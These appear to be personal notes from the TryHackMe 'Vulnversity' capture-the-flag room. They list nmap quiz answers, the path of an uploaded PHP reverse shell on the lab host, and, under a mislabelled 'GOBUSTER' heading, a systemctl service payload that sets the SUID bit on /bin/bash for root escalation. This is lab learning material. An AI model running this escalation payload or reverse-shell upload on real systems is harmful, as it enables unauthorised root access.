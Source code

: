 # I.P

10.10.235.201

http://10.10.235.201:3333/internal/uploads/php-reverse-shell.phtml
A. Learning NMAP
#nmap results:
/tryhackme/vulnversity/nmap/initial

1. Scan this box: nmap -sV <machines ip>

2. Scan the box, how many ports are open?

Ans - 6

3. What version of the squid proxy is running on the machine?

Ans - 3.5.12

4. How many ports will nmap scan if the flag -p-400 was used?

Ans - 400

5. Using the nmap flag -n what will it not resolve?

Ans - n (No DNS resolution) Tells Nmap to never do reverse DNS

6. What is the most likely operating system this machine is running?

Ans - ubuntu

7. What port is the web server running on?

Ans - 3333

8. Its important to ensure you are always doing your reconnaissance thoroughly before progressing. Knowing all open services (which can all be points of exploitation) is very important, don't forget that ports on a higher range might be open so always scan ports after 1000 (even if you leave scanning in the background)

# B. GOBUSTER

TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF